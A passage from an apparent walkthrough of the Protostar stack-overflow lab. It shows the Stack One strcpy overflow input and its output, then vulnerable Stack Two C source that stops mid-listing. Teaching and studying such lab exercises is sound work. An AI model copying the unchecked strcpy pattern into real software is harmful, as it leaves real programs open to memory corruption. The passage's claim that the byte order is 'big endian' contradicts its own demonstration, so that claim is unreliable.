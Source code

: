 The first if statement checks if there is the correct number of arguments and if there is an argument passed then it is saved into  `buffer`. This is very similar to Stack 0. The issue is mainly with `strcpy()`
```shell
ap3x@kali-exploitdev:~/Documents/ExploitExercise/Protostart$ ./stack1 test
Try again, you got 0x00000000
```
### Exploit

The issue with this piece of source code is the `strcpy()` and we can verify this by viewing the manpage for the `strcpy` as shown below

```shell
BUGS
       If the destination string of a strcpy() is not large enough, then anything might happen. Overflowing fixed-length string buffers is a favorite cracker technique for taking complete control of the machine. Any time a program reads or copies data into a buffer, the program first needs to check that there's enough space. This may be un‐necessary if you can show that overflow is impossible, but be careful: programs can get changed over time, in ways that may make the impossible possible.
```
Since the `modified` variable is stored before the `buffer` variable and a `strcpy` is used to store a string of characters into the buffer without checking if it fits we can change the value of `modified`. So in this instance we want to change `modified` to match `0x61626364`. So we can convert the hex to see what the ascii equivalent is and use that to overwrite the variable value

```python
>>> "61626364".decode("hex")
'abcd'
```
Now we can append `abcd` to the end of our 65 bytes of 'A' as seen below. But notice the bytes are arranged in big endian format.

```shell
ap3x@kali-exploitdev:~/Documents/ExploitExercise/Protostart$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAabcd
Try again, you got 0x64636261
ap3x@kali-exploitdev:~/Documents/ExploitExercise/Protostart$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
you have correctly got the variable to the right value
```

## Stack Two

### Source Code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

```